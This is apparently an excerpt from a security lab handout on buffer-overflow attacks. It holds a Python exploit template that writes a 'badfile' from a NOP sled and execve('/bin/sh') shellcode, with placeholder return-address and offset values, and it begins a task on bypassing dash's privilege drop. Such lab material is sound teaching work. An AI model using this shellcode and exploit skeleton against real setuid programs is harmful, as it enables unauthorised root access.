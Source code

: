 \begin{lstlisting}
#!/usr/bin/python3

import sys

shellcode= (
    "\x31\xc0"             # xorl    %eax,%eax              
    "\x50"                 # pushl   %eax                   
    "\x68""//sh"           # pushl   $0x68732f2f            
    "\x68""/bin"           # pushl   $0x6e69622f            
    "\x89\xe3"             # movl    %esp,%ebx              
    "\x50"                 # pushl   %eax                   
    "\x53"                 # pushl   %ebx                   
    "\x89\xe1"             # movl    %esp,%ecx              
    "\x99"                 # cdq                            
    "\xb0\x0b"             # movb    $0x0b,%al              
    "\xcd\x80"             # int     $0x80                  
    "\x00"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

# Put the shellcode at the end
start = 517 - len(shellcode)
content[start:] = shellcode

#########################################################################
ret    = 0xAABBCcDD   # replace 0xAABBCCDD with the correct value
offset = 0            # replace 0 with the correct value

# Fill the return address field with the address of the shellcode
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
#########################################################################

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}

 

\subsection{Task 3: Defeating \texttt{dash}'s Countermeasure}

As we have explained before, the \texttt{dash} shell in Ubuntu 16.04 drops privileges 
when it detects that the effective UID does not equal to the real UID.
This can be observed from \texttt{dash} program's changelog.
We can see an additional check in Line , which
compares real and effective user/group IDs.



